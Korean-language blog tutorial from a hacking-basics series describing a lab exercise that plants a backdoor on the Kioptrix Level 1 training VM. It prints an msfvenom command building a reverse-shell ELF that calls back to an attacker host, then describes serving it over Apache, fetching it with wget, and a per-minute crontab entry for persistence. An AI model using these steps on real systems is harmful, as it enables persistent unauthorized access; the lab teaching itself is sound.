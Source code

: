 ```yaml
---
layout: post
title: '[해킹 기초] 15. Back door'
date: '2023-01-09 11:59:10 +0900'
description: '백도어(Back door)'
categories: [HACKING,HACKING - Part.2]
image: /assets/img/1/hacking.png
tags: [hacking]
toc: false
---
```

<a text-size="1px" target="_blank" href="https://icons8.com/icon/5503/hacking">Hacking</a> icon by <a target="_blank" href="https://icons8.com">Icons8</a>



### <b>■ 백도어(Back door)란?</b>
: 백도어(Backdoor)는 시스템에 접근하기 위해 정상적인 인증 절차를 무효화하는 악성 코드의 유형으로, 컴퓨터의 시스템이나 네트워크, 또는 응용 프로그램의 일반적인 보안 조치를 우회해 접근할 수 있는 방식을 말한다. 쉽게 말해서 해킹하고 나서 다음에 쉽게 들어오기 위해 조그만 문을 열어두는 것이다. <br>
>출처:
inforad

### <b>■ 백도어(Back door) 실습</b>
- [실습 환경]
    - Virtual Box(Kali Linux) - 공격자
    - Kioprix_Level 1 - 공격대상

- [공격 순서]
    - [reverse shell]
    1. 피해자 PC 에서 1분마다 특정 port(공격자)에 접속하게 한다.
    2. 공격자는 필요한 때 특정 port를 열어 피해자 PC가 특정 port에 들어오게 한다.
    3. 피해자 PC가 특정 port를 접속하면 공격자는 피해자 shell을 획득할 수 있다.

- [공격 목표]
    - Back door 설치

<hr>
<img src="/assets/img/hacking/part2-9/1.png" alt="표사진"><br>
백도어 파일을 만들기 위해 msfvenom을 이용할 것이다. 다음과 같은 명령어를 통해 악성 스크립트를 만들자.<br>
msfvenom -p linux/x86/shell_reverse_tcp LHOST=[공격자 IP] LPORT=7777 -f elf > backdoor

back door 악성스크립트를 만들었으면 피해자 PC에서 이 파일을 받아야 된다. 이전 게시글에서 사용한 방법인 wget 명령어를 이용해서 피해자 PC에서 backdoor파일을 받을 것이다. wget 명령어를 사용하기 위해서는 80번 port가 열려 있어야 하므로 service apache2 start 명령어를 통해 열어준 다음 cp 명령어를 이용해 backdoor 파일을 /var/www/html 경로로 옮긴다. 옮기고 나서 chmod 명령을 이용해 모든 권한을 준다.
<hr>
<img src="/assets/img/hacking/part2-9/2.png" alt="표사진"><br>
기존에 했던 공격 방식으로 피해자 PC shell을 획득한 다음 /root 경로로 가서 wget을 이용해 위에서 올려둔 backdoor 파일을 가져온다. 가져오고나서 chmod를 이용해 777권한을 준다.
<hr>
<img src="/assets/img/hacking/part2-9/3.png" alt="표사진"><br>
권한을 주고 ls -al 명령어로 확인을 해보면 위와 같이 권한이 표시될 것이다.
<hr>
<img src="/assets/img/hacking/part2-9/4.png" alt="표사진"><br>
다시 공격자 PC에 가서 7777번 port 를 열어주자. 열어주는 이유는 피해자 PC가 이 port를 통해 들어올 것이기 때문이다.
<hr>
<img src="/assets/img/hacking/part2-9/5.png" alt="표사진"><br>
공격자 PC에서 7777번 port를 연 다음 피해자 PC에 가서 ./backdoor 명령을 입력해 보자.
<hr>
<img src="/assets/img/hacking/part2-9/6.png" alt="표사진"><br>
다시 공격자 PC를 확인해 보면 위와 같이 연결됐다고 나올 것이다. 그러면 피해자 PC shell을 획득한 것이다. 하지만 우리가 매번 이렇게 할 수 없으니깐 피해자 PC에서 일정하게 공격자 PC port로 접속하게 해두면 편할 것이다.
<hr>
<img src="/assets/img/hacking/part2-9/7.png" alt="표사진"><br>
crontab을 이용해서 1분마다 backdoor 명령을 실행하도록 설정했다. 이 말인 즉슨 피해자는 1분마다 backdoor프로그램을 실행한다. 따라서 공격자가 7777번 포트만 열면 언제든지 피해자 PC에 접속할 수 있다는 의미이다. crontab 설정은 -l 옵션으로 확인할 수 있다. 여기서 * * * * * 의 의미는 1분마다 실행하라는 의미이다.
<hr>
<img src="/assets/img/hacking/part2-9/8.png" alt="표사진"><br>
위에서 말했듯이 공격자는 7777번 port를 열고 최대 1분을 기다리면 피해자 PC의 shell을 마음대로 원할 때 획득할 수 있다.
<hr>